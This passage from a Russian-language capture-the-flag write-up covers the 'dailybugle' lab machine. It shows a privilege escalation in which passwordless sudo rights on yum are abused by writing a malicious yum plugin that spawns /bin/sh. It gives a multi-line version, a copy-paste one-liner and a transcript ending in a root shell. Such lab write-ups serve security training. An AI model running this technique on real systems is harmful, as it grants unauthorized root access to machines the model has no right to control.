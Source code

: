 ### sudo -l
```bash
[jjameson@dailybugle ~]$ sudo -l
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Эксплуатация описана тут: `https://gtfobins.github.io/gtfobins/yum/`  
В данном случае нужно это:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Но придется руками копировать и вставлять построчно - не вариант.  
Следующий код достаточно просто скопировать и вставить:
```bash
TF=$(mktemp -d) && \
echo -e "[main]\nplugins=1\npluginpath=$TF\npluginconfpath=$TF" > "$TF/x" && \
echo -e "[main]\nenabled=1" > "$TF/y.conf" && \
echo -e "import os\nimport yum\nfrom yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE\nrequires_api_version='2.1'\ndef init_hook(conduit):\n  os.execl('/bin/sh','/bin/sh')" > "$TF/y.py" && \
sudo yum -c $TF/x --enableplugin=y
```

И получаю root
```bash
[jjameson@dailybugle ~]$ TF=$(mktemp -d) && \
> echo -e "[main]\nplugins=1\npluginpath=$TF\npluginconfpath=$TF" > "$TF/x" && \
> echo -e "[main]\nenabled=1" > "$TF/y.conf" && \
> echo -e "import os\nimport yum\nfrom yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE\nrequires_api_version='2.1'\ndef init_hook(conduit):\n  os.execl('/bin/sh','/bin/sh')" > "$TF/y.py" && \
> sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
```
